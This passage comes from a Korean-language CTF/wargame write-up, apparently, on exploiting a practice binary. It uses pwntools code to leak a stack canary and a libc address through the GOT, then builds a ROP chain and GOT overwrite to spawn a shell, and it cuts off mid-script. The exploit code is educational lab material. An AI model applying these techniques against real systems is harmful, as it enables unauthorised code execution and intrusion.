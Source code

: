 ```python
payload += p64(write_plt)

p.sendafter(b'Buf: ', payload)
read = u64(p.recvn(6) + b'\x00'*2)
lb = read - libc.symbols['read']
system = lb + libc.symbols['system']
slog('read', read)
slog('libc_base', lb)
slog('system', system)

p.interactive()
```

<br/>

### GOT Overwrite 및 “/bin/sh” 입력

- "/bin/sh"는 덮어쓸 엔트리 뒤에 같이 입력하면 된다.
- 이 바이너리에는 read함수를 사용할 수 있고, read 함수는 입력 스트림, 입력 버퍼, 입력 크기의 세 가지 인자를 받는다.

- rdi와 rsi는 전에 있는 리턴 가젯을 사용하면 되지만 rdx와 관련된 가젯은 바이너리에서 찾기 어렵다. 
  - libc의 코드 가젯이나 libc_csu_init 가젯을 사용하면 된다. 또는 strncmp 함수에서 rax로 비교 결과를 반환하고 rdx로 두 문자열이 첫 번째 문자부터 가장 긴 부분 문자열의 길이를 반환한다.
  - `ROPgadget --binary ./libc.so.6 --re "pop rdx"` 명령을 통해서 libc 파일에서 가젯을 구하면 된다. 

<br/>

### 최종 익스플로잇 코드

- libc 파일 같은 경우 우분투 버전마다 미세하게 다를 수 있기 때문에 워게임 같은 문제에서 제공하는 libc를 쓰면 좋음 
- 첫 번째 입력은 카니리릭, 두 번째 입력은 카나리를 우회하여 카나리와 반환 주소를 0x8만큼 dummy를 B로 입력시킨 후 반환 주소에 write로 read_got 주소를 출력해준다.
- read함수로 read_got 값의 주소를 읽어주고, 다음 코드에 위치를 read_got+0x8로 이동시켜 주면서 movaps 명령에 맞게 0x10 단위로 맞춰주기 위해 ret 가젯을 추가로 넣어준다. 
- 출력된 read_got 주소와 libc 주소의 read 주소의 차이를 구해 이 차이만큼 libc의 system 주소에 더해서 p.send 명령으로 system 함수를 호출해주고 p.interactive() 함수를 통해 쉘을 실행한다. 

```python
#!/usr/bin/env python3
# Name: rop.py
from pwn import *

def slog(name, addr): return success(': '.join([name, hex(addr)]))

p = process('./rop')
e = ELF('./rop')
libc = ELF('./libc.so.6')

# [1] Leak canary
buf = b'A'*0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

# [2] Exploit
read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
pop_rdi = 0x0000000000400853
pop_rsi_r15 = 0x0000000000400851
ret = 0x0000000000400854

payload = b'A'*0x38 + p64(cnry) + b'B'*0x8

```